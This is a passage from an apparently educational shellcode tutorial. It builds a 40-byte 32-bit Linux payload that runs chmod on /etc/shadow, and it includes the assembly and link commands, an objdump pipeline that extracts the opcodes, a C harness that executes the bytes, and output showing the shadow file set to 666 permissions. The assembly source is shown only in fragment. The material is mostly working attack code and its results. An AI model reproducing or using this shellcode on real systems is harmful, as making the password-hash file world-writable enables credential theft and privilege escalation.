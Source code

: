 ```nasm
	int 0x80
```

Assemble and link our code:
```terminal_session
root@kali:~# nasm -f elf32 chmod.nasm && ld -m elf_i386 chmod.o -o chmod_test
```

Dump the shellcode:
```terminal_session
root@kali:~# objdump -d ./chmod_test|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc9\xf7\xe1\x52\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe7\x87\xdf\x66\x68\xff\x01\x59\x83\xe9\x49\xb0\x0f\xcd\x80\xb0\x01\xcd\x80"
```

Place it into our shellcode.c file:
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\xf7\xe1\x52\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe7\x87\xdf\x66\x68\xff\x01\x59\x83\xe9\x49\xb0\x0f\xcd\x80\xb0\x01\xcd\x80";


main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

Finally, compile and run!
```terminal_session
root@kali:~# gcc -fno-stack-protector -z execstack -m32 shellcode.c -o chmod_test
```
```terminal_session
root@kali:/etc# cp ~/chmod_test .
root@kali:/etc# ./chmod_test
Shellcode Length:  40
root@kali:/etc# ls -lah | grep shadow
-rw-rw-rw-   1 root    shadow  1.8K Jan 21 00:36 shadow
```

**Size: 40 bytes**

**Increase: 21%**

The shadow file has `666` permissions, our code was a success! 
